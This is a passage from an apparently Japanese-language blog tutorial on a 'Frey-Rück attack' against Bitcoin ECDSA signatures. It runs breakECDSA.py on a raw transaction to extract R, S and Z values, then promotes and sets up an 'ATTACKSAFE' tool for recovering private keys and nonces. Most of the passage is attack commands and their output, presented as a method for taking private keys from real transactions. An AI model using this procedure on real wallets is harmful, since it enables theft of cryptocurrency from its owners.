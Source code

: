 
<pre class="wp-block-code"><code>RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000
</code></pre>



<h2>ここで、すべての脆弱なトランザクションからすべての R、S、Z 値を取得する必要があります</h2>



<p>breakECDSA.py スクリプトを使用してみましょう</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-33-1024x263.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-937"/></figure>



<pre class="wp-block-code"><code>R = 0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff
S = 0x649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1
Z = 0xb8e936d143c8733bb1ede19146f8725fee1d10bfc19e14452a51cef0cb0014d8</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><strong></strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener">攻撃を実装して秘密鍵を取得するには、 「ATTACKSAFE SOFTWARE」</a></strong><strong>ソフトウェアを使用します</strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"></a></strong></p>



<figure class="wp-block-image"><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-14.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-705"/></a><figcaption class="wp-element-caption"><strong><code>www.attacksafe.ru/software</code></strong></figcaption></figure>



<h2>アクセス権：</h2>



<pre class="wp-block-code"><code>chmod +x attacksafe</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-34.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-940"/></figure>



<h2>応用：</h2>



